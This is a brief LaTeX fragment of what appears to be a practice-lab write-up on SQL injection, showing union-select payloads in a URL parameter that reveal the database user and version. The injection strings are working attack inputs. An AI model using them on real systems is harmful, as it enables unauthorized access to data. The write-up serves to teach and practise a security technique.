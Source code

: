 \documentclass{article}
\begin{document}
\begin{verbatim}
	?id=1 and 1=2 union select 1,2,3--
\end{verbatim}

This time, I was able to see the numbers one and two in the page content, so I replaced them with \verb`user()` and \verb`version()` like so.

\begin{verbatim}
	?id=1 and 1=2 union select user(),version(),3--
\end{verbatim}

This revealed that the version is 5.6.33-log and the user is zixem@localhost.

\subsection{Level 2}
\end{document}

